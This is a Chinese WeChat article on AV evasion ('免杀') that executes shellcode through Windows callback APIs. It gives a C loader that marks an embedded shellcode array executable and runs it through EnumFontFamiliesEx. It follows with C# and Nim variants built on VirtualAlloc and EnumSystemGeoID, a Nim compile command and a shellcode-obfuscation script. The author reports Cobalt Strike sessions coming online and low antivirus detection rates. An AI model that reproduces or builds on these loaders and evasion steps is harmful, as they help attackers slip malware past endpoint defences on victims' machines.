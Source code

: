 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/G5SPb73sl6e8cVjIN7atvg)

  正值某大型活动期间，于是水一篇文章，来聊聊最近大家比较喜欢的利用回调函数来进行免杀这个小 tips。

    如果你之前接触过编程语言，就一定会对回调函数 (callback) 有所了解，因为前人已对这些东西有过详细的介绍，所以这里不再过多赘述，不明白的可以参考 MicroPest 师傅的这两篇文章，里面详细的介绍了回调函数以及回调函数来进行 shellcode 执行的方法：https://my.oschina.net/u/4079523/blog/5011400、https://my.oschina.net/u/4079523/blog/5011399 而回调函数也即下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VticEQ2E5bFM8luxlibTahDp2OLXNRGic3CdCIMLkcYXHpboEliaUjEiaJQicNlebTHcBZgjgibDThFIZLg/640?wx_fmt=png)

那么一个比较直接的例子就是：

```
#include <Windows.h>
/*
 * https://osandamalith.com - @OsandaMalith
 */
  int main() {
  int shellcode[] = {
    015024551061,014333060543,012124454524,06034505544,
    021303073213,021353206166,03037505460,021317057613,
    021336017534,0110017564,03725105776,05455607444,
    025520441027,012701636201,016521267151,03735105760,
    0377400434,032777727074
  };
  DWORD oldProtect = 0;
  BOOL ret = VirtualProtect((LPVOID)shellcode, sizeof shellcode, PAGE_EXECUTE_READWRITE, &oldProtect);

  EnumFontFamiliesEx(GetDC(0), 0, (FONTENUMPROC)(char*)shellcode, 0, 0);
}
```

而这样做的好处就是我们避免了一下敏感函数的使用，比如内存分配的：malloc(),virtualalloc(),heapalloc() 的调用，更好的防止被安全软件所查杀。

    但是 C/C++ 的此类用法已经被大家所熟知了，效果自然也就慢慢的不好了，所以下面我们将它改造成 Csharp 版本和 Nim 版本，来提高我们的免杀效果。首先是 Csharp 版本。这里选择的 api 为 EnumSystemGeoID，其函数原型如下：

```
BOOL EnumSystemGeoID(
  GEOCLASS     GeoClass,
  GEOID        ParentGeoId,
  GEO_ENUMPROC lpGeoEnumProc
);
```

注：使用该 api 无法避免 virtualalloc 的使用，其 api 调用链如下：

```
virtualalloc ---> memcpy --->  EnumSystemGeoID
```

按照之前的文章所说，我们还是需要先进行 api 的调用：

```
[DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", EntryPoint = "EnumSystemGeoID")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool EnumSystemGeoID(uint GeoClass, int ParentGeoId, IntPtr lpGeoEnumProc);
```

下面就是函数的使用了，即分配内存、复制 shellcode、回调。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VticEQ2E5bFM8luxlibTahDpw4nH6HBFvmgOsoHgFhIVCEOicXVrtXOsULrkxk26zUO3ng5588uQSYQ/640?wx_fmt=png)

执行后 cs 上线。因为原生 shellcode 的问题，效果肯定不好，这里可以根据自己的需要进行 shellcode 的混淆等，混淆后编译，最终的查杀效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VticEQ2E5bFM8luxlibTahDpoGZqmthiaibZ2MXjoicqXShhb1ibr8awxvwbMuEdlw6O0VFxicx9Ju13yAw/640?wx_fmt=png)

然后就是最近比较火的 nim 了，nim 的 windows 调用依赖于第三方库，我们可以这样调用它。

```
import winim/lean
```

然后就是一样的 api 的调用了，这里就仅仅展示一下 VirtualAlloc 吧：

```
let rPtr = VirtualAlloc(
            nil,
            cast[SIZE_T](shellcode.len),
            MEM_COMMIT,
            PAGE_EXECUTE_READ_WRITE
        )
```

编译

```
nim cc -d=release --opt=size .\callback.nim
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VticEQ2E5bFM8luxlibTahDpC0vosH9fdxWhic8bgaDIicC0pugicNLEGbtibqdcl7MeicmQPpwLFwYn93g/640?wx_fmt=png)

执行，成功上线。通用查看查杀率：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VticEQ2E5bFM8luxlibTahDp9MmOQsjH82InMsfIibkIh8161bcuVx5XwmCUOHfE3GZcxm9F3jD5VoQ/640?wx_fmt=png)

shellcode 的加密可以参考：

```
var dict = toSeq(0..255).mapIt(it.uint8)
randomize()
dict.shuffle()

let entireFile = readFile(paramStr(1)).mapIt(it.uint8)
var finallTable = newSeq[uint8](entireFile.len)
for i in 0..high(entireFile):
    for k in 0..high(dict):
        if entireFile[i] == dict[k]:
            finallTable[i] = k.uint8
let result = encode(concat(dict,finallTable))
echo result
```

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)